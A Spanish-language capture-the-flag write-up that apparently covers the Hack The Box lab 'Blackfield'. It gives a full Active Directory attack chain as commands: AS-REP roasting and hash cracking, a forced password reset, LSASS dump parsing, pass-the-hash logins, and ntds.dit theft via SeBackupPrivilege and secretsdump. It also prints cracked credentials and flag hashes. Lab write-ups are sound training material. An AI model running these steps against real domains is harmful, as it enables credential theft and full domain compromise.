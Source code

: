 **Skills Required**
Basic Knowledge of Windows
Basic Knowledge of Active Directory
**Skills Learned**
Leveraging Backup Operators group membership
Dumping credentials from LSASS
Anonymous / Guest Enumeration

puerto 88 kerberos, 389 ldap, 445 smb, 5985 administracion remota de windows

Como el puerto 445 esta abierto, usar crackmapexec para encontrar mas informacion sobre la maquina victima
```
crackmapexec smb 10.10.10.192
```

Como el smb esta abierto, usar smbmap para buscar recursos compartidos a nivel de red del lado de la victima

```
smbmap -H 10.10.10.192 -u 'null'
```

Encontre un recurso compartido con permisos de lectura
```
smbmap  -H 10.10.10.192 -u 'null' -r 'profiles$'
```

Reporta una lista de nombres de usuarios
```
smbmap -H 10.10.10.192 -u 'null' -r 'profiles$' | awk 'NF{print $NF}' > users
```

Ahora con kerbrute validar que usuarios son validos

```
kerbrute userenum --dc 10.10.10.192 -d blackfield.local users
```

De eta forma valide algunos usuarios , ahora podemos efectuar el ataque ASREPRoast usando GetNPUusers

```
GetNPUusers blackfield.local/ -no-pass -usersfile valid_users
```

Ahora tenemos un usuario valido y su hash, con john puedo crackear ese hash

```
john --wordlist=rockyou hash
$krb5asrep$23$support@BLACKFIELD.LOCAL:#00^BlackKnight
```

Ahora teniendo ceredenciales validas hacer un kerberoastingattack

```
GetUserSPNs 'blackfield.local/support:password'
```

este usuario no es kerberoastiable

Comprobar con crackmapexec que las credenciales son validas

```
crackmapexec smb 10.10.10.192 -u 'user' -p 'pass'
```

Ahora que eta comprobado que estas credenciales son validas, usar smbmap para listar los recursos compartidos de este usuario

```
smbmap -H 10.10.10.192 -u 'support' -p 'passwd'
```

No hay nada nuevo con este usuario, asi que hay que probar otra cosa.
podemos usar ldapdomaindump  para enumerar informacion de llos usuarios activos, y extraer informacion, tambien probar con rpcclient y su funcion enumdomusers

```
ldapdomaindump -u 'blackfield.local\support' -p 'passwd' 10.10.10.192
rpcclient -U "support%passwd" 10.10.10.192
rpcclient enumdomusers
```

Ahora tenemos informacion de grupos y usuarios del dominio, puedo tratar de cambiar alguna contraseña de los usuarios encontrados

```
net rpc password audit2020 -U 'support' -S 10.10.10.192
```

comprobar con crackmapexec que se cambio correctamente la contraseña

```
crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'pass123@'
```

ahroa que tenemos una nueva credencial podermos ver que recursos compartidos tiene este nuevo usuario usando smbmap

```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'pass123@'
```

Con este usuario tenemos acceso a un nuevo recuros (forensic)

```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'pass123@' -r forensic
```

Encuentro reucrsos interesantes y los enumero

```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'pass123@' -r forensic/memory_analysis
```

Hay uno que llama la atencion por su nombre "lsass" 
puedo usar la herramienta pypykatz para dumpiar lsass
primero descargo ese archivo a mi equipo

```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'pass123@' --download forensic/memory_analysis/lsass.zip
7z x lsass.zup
```

Ahora con la herramienta pypykatz obtener informacion privilegiado aprovechanonos de ese dump lsass:
```
pypykatz lsa minidump lsass.DMP
```

Asi obenetemos el hash del usuario svc_backup el cual esta en el grupo remote management users, este usuario se puede autenticar al winrm
podemos validar con crackmapexec ese hash

```
crackmapexec smb 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

Ahora validar se se puede conectar por winrm

```
crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H 'NThash'
```

comoo pone Pwn3d! asi validamos que podemos ganar acceso a la maquina, ahora con evil-winrm ganamos acceso a la maquina victima
```
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H 'hash'
```

Ahora hay que escalar privilegios:
Enumerar el usuario
```
whoami /priv
# SeBackupPrivilege

```

Con ese privilegio puedo hacer un backup de lo que quiera en el sistema
Creamos una copia del system

```
reg save HKLM\system system
download C:\Temp\system
```

Crear uina copia del ntds.dit

Crear una unidad logica con diskshadow https://pentestlab.blog/tag/diskshadow/:
``` 
# crear un archivo de texto con esto:  
set context persistent nowriters  
add volume c: alias someAlias  
create  
expose %someAlias% z:  
# subirlo a la maquina victima upload test.txt  #en la maquina victima diskshadow.exe /s c:\Temp\test.txt 
```  

Ahora podemos crear la copia del ntds.dit 
``` 
robocopy /b z:\Windows\NTDS\ . ntds.dit ahora descargamos el ntds.dit 
```  

Y ahora con el secretsdump :
```  
secretsdump -system system -ntds ntds.dit LOCAL
```  

ASi obtenemos el hash de administrador del DC

ahora con crackmapexec comprovamos estas credenciales

```
crackmapexec smb 10.10.10.192 -u 'Administrator' -H 'NTdshash'
```

Ahora con evil-winrm puedo ganar acceso a la maquina como Administrador

```
evil-winrm -i 10.10.10.192 -u 'Administrator' -H 'hash'
```

user hash > 3920bb317a0bef51027e2852be64b543
root hash > 4375a629c7c67c8e29db269060c955cb